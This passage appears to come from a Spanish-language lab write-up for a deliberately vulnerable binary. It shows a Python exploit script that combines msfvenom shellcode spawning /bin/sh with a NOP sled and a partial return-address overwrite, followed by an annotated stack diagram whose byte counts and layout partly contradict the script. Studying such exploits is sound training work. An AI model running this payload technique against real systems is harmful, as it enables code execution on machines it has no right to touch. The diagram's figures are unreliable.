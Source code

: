 ```csharp
user@phoenix-amd64:/tmp$ nano Local_exploit.py 
user@phoenix-amd64:/tmp$ cat Local_exploit.py 
#!/usr/bin/env python3

# Total de bytes hasta la dirección de retorno
offset = 127

# Shellcode generado previamente
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x1b\x26\x05"
shellcode += b"\x07\x09\xc0\x8c\xbf\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x53\x9e\x2a\x65\x60"
shellcode += b"\xae\xa3\xcc\x73\x26\x9c\x57\x5d\x9f\xde\xd9"
shellcode += b"\x73\x0b\x66\x53\x57\x92\x64\xb7\x1b\x26\x05"
shellcode += b"\x28\x6b\xa9\xe2\x90\x68\x4e\x05\x51\x5e\x94"
shellcode += b"\xd2\xd5\x20\x7e\x0a\x02\x09\xc0\x8c\xbf"

# Último byte de la dirección de retorno 
lsb = b'\xc0'

# Construcción del payload: shellcode + NOP sled + dirección de retorno
buf  = shellcode
buf += b'\x90' * (offset - len(shellcode))
buf += lsb

# Imprimir el payload en stdout para redirigirlo al binario vulnerable
import sys
sys.stdout.buffer.write(buf)

```

Si vemos una grafica de la pila, esto es lo que realizará nuestro payload.

```csharp
Direcciones (más altas)
┌─────────────────────────────┐
│ Saved RIP                   │  <- dirección de retorno sobrescrita
│                                con valor parcial (LSB)
├─────────────────────────────┤
│ Saved RBP                   │  <- 0x7fffffffe5c0
│ (último byte sobrescrito)   │  <- 161 bytes pisan solo 1 byte de RBP
├─────────────────────────────┤
│ NOP sled (~39 bytes)        │  <- b'\x90' * (offset - len(shellcode))
│                                "zona de aterrizaje" para llegar al shellcode
├─────────────────────────────┤
│ Shellcode (87 bytes)        │  <- generado con msfvenom (execve /bin/sh)
│                                se ejecuta al caer en la NOP sled
├─────────────────────────────┤
│ Entrada controlada (127 B)  │  <- payload del exploit
│   - Shellcode (87 B)        │
│   - NOP sled (~39 B)        │
│   - +1 byte → pisa RBP (LSB)│
├─────────────────────────────┤
│ Buffer local (128 bytes)    │  <- reservado por el programa (rbp-0xa0 → rbp-0x1)
│   - "Welcome, I am pleased…"│  (34 bytes de mensaje fijo del binario)
│   - Resto → ocupado por     │
│     nuestra entrada control │
└─────────────────────────────┘
Direcciones (más bajas)Direcciones (más altas)
┌─────────────────────────────┐
│ Saved RIP (0x4007e9)        │  <- dirección de retorno de greet() hacia main()
├─────────────────────────────┤
│ Saved RBP                   │  <- 0x7fffffffe5c0
```